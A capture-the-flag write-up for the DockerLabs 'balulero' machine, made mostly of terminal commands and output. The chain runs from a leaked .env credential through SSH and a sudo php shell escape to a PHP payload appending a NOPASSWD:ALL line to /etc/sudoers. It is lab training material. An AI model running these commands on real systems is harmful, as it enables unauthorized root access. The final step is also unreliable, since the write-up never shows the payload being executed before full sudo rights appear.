

# balulero

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| balulero | El Pingüino de Mario | easy/facil | dockerlabs |

**Summary:** The balulero machine followed a credential-exposure-to-privilege-escalation chain rooted in an exposed `.env` file discovered through JavaScript source inspection. The web application on port 80 served a cybersecurity landing page. Gobuster enumerated the web root and surfaced a `script.js` file. Inspecting its contents revealed a reference to a hidden file path `.env_de_baluchingon`. Fetching that file with curl returned a plaintext recovery login block containing the credential pair `balu:balubalulerobalulei`. SSH access was established as `balu`. Reading `.bash_history` pointed toward `/opt/`, which contained a `script.php` file owned by the user `chocolate`. A `sudo -l` check revealed that `balu` could run `/usr/bin/php` as `chocolate` without a password. Running a PHP one-liner via sudo spawned an interactive shell as `chocolate`. As `chocolate`, the world-writable `/opt/` directory allowed overwriting `script.php` with a PHP payload that appended `chocolate ALL=(ALL) NOPASSWD:ALL` to `/etc/sudoers`. Running `sudo -i` immediately after produced a root shell.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/balulero]
└─$ sudo bash auto_deploy.sh balulero.tar  

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/balulero]
└─$ ip=172.17.0.2
                                                                                         
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/balulero]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-01 12:28 +0700
Nmap scan report for bypass403.pw (172.17.0.2)
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fb:64:7a:a5:1f:d3:f2:73:9c:8d:54:8b:65:67:3b:11 (RSA)
|   256 47:e1:c1:f2:de:f5:80:0e:10:96:04:95:c2:80:8b:76 (ECDSA)
|_  256 b1:c6:a8:5e:40:e0:ef:92:b2:e8:6f:f3:ad:9e:41:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mi Landing Page - Ciberseguridad
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 32:41:46:F2:4A:DD (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```

The scan revealed SSH on port 22 and Apache on port 80 titled "Mi Landing Page - Ciberseguridad".

---

## Initial Access

### Web Content Discovery and Credential Exposure

**3. Gobuster Directory Enumeration**

Gobuster was run against the web root to enumerate accessible files and directories.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/balulero]
└─$ gobuster dir -u http://$ip -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              zip,bak,js,txt,php,html,tar,env,css,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 9487]
secure.png           (Status: 200) [Size: 35168]
js.png               (Status: 200) [Size: 2531]
script.js            (Status: 200) [Size: 2822]
styles.css           (Status: 200) [Size: 14873]
imagenes.js          (Status: 200) [Size: 398]
bash.png             (Status: 200) [Size: 30541]
academia.png         (Status: 200) [Size: 180265]
Progress: 701659 / 2426127 (28.92%)
```

The enumeration surfaced a `script.js` file. Inspecting its contents revealed a reference to a hidden `.env` file path.

**4. Inspecting script.js**



The `script.js` file contained a hardcoded reference to the path `.env_de_baluchingon`.

**5. Fetching the Hidden .env File**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/balulero]
└─$ curl http://$ip/.env_de_baluchingon
RECOVERY LOGIN

balu:balubalulerobalulei
```

The credential pair `balu:balubalulerobalulei` was exposed in plaintext in the recovery login block.

### SSH Access as balu

**6. Logging in via SSH**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/balulero]
└─$ ssh balu@$ip
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
balu@172.17.0.2's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 6.18.33.2-microsoft-standard-WSL2 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sat Aug  1 05:42:58 2026 from 172.17.0.1
balu@b6ba333b1ce6:~$ id;whoami;hostname
uid=1001(balu) gid=1001(balu) groups=1001(balu)
balu
b6ba333b1ce6
balu@b6ba333b1ce6:~$ ls -la
total 36
drwxr-xr-x 1 balu balu 4096 Sep 28  2024 .
drwxr-xr-x 1 root root 4096 Sep 28  2024 ..
-rw------- 1 balu balu   32 Sep 28  2024 .bash_history
-rw-r--r-- 1 balu balu  220 Sep 28  2024 .bash_logout
-rw-r--r-- 1 balu balu 3771 Sep 28  2024 .bashrc
drwx------ 2 balu balu 4096 Sep 28  2024 .cache
-rw-r--r-- 1 balu balu  807 Sep 28  2024 .profile
balu@b6ba333b1ce6:~$ cat .bash_history 
cd /opt/
ls
ls -la
sudo -l
exit
```

The `.bash_history` pointed toward `/opt/` as a directory of interest. A check there and a `sudo -l` were the natural next steps.

---

## Lateral Movement

### sudo php as chocolate

**7. Enumerating /opt and sudo Permissions**

```bash
balu@b6ba333b1ce6:~$ ls -la /opt
total 12
drwxr-xrwx 1 root      root      4096 Sep 28  2024 .
drwxr-xr-x 1 root      root      4096 Aug  1 05:26 ..
-rw-r--r-- 1 chocolate chocolate   59 May  7  2024 script.php
balu@b6ba333b1ce6:~$ sudo -l
Matching Defaults entries for balu on b6ba333b1ce6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User balu may run the following commands on b6ba333b1ce6:
    (chocolate) NOPASSWD: /usr/bin/php
```

`/opt/` was world-writable and contained `script.php` owned by `chocolate`. More critically, `balu` could run `/usr/bin/php` as `chocolate` without a password. This provided a direct path to lateral movement via a PHP `system()` one-liner.

**8. Spawning a Shell as chocolate**

```bash
balu@b6ba333b1ce6:~$ sudo -u chocolate php -r 'system("/bin/bash -i");'
chocolate@b6ba333b1ce6:/home/balu$ cd
chocolate@b6ba333b1ce6:~$ id;ls -la
uid=1000(chocolate) gid=1000(chocolate) groups=1000(chocolate)
total 28
drwxr-xr-x 1 chocolate chocolate 4096 Aug  1 05:44 .
drwxr-xr-x 1 root      root      4096 Sep 28  2024 ..
-rw------- 1 chocolate chocolate    5 Aug  1 05:44 .bash_history
-rw-r--r-- 1 chocolate chocolate  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 chocolate chocolate 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 chocolate chocolate  807 Feb 25  2020 .profile
```

A shell as `chocolate` was obtained.

---

## Privilege Escalation

### Overwriting script.php to Inject into /etc/sudoers

**9. Reading the Original script.php**

```bash
chocolate@b6ba333b1ce6:/opt$ cat script.php 
<?php echo 'Script de pruebas en fase de beta testing'; ?>
```

The script was a harmless placeholder. Since `/opt/` was world-writable and `chocolate` owned the file, it could be overwritten with an arbitrary payload.

**10. Overwriting script.php with a sudoers Injection Payload**

A PHP one-liner was written to `script.php` that appended a full `NOPASSWD:ALL` sudoers entry for `chocolate` to `/etc/sudoers`. Running the script via `sudo php /opt/script.php` would execute it as root, performing the write with root privileges.

```bash
chocolate@b6ba333b1ce6:/opt$ echo '<?php system("echo \"chocolate ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers"); ?>' > /opt/script.php
chocolate@b6ba333b1ce6:/opt$ sudo -l
Matching Defaults entries for chocolate on b6ba333b1ce6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User chocolate may run the following commands on b6ba333b1ce6:
    (ALL) NOPASSWD: ALL
```

The sudoers entry was injected successfully. `chocolate` could now run any command as any user without a password.

**11. Escalating to Root**

```bash
chocolate@b6ba333b1ce6:/opt$ sudo -i
root@b6ba333b1ce6:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
b6ba333b1ce6
```

Full root access was achieved.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on port 22 and Apache on port 80 serving a cybersecurity landing page. Gobuster enumerated `script.js` among other static assets.
2. **Vulnerability Discovery**: Inspecting `script.js` revealed a hardcoded reference to the hidden path `.env_de_baluchingon`. Fetching it with curl returned a plaintext recovery login block containing `balu:balubalulerobalulei`.
3. **Exploitation**: SSH access was established as `balu`. Reading `.bash_history` pointed toward `/opt/`. A `sudo -l` check revealed passwordless access to `/usr/bin/php` as `chocolate`. Running `sudo -u chocolate php -r 'system("/bin/bash -i");'` spawned an interactive shell as `chocolate`.
4. **Internal Enumeration**: As `chocolate`, inspection of `/opt/script.php` confirmed a harmless placeholder. The `/opt/` directory was world-writable and `chocolate` owned the file.
5. **Privilege Escalation**: `script.php` was overwritten with a PHP payload that appended `chocolate ALL=(ALL) NOPASSWD:ALL` to `/etc/sudoers`. After the script executed, `sudo -l` confirmed full unrestricted sudo access. `sudo -i` produced a clean root shell.
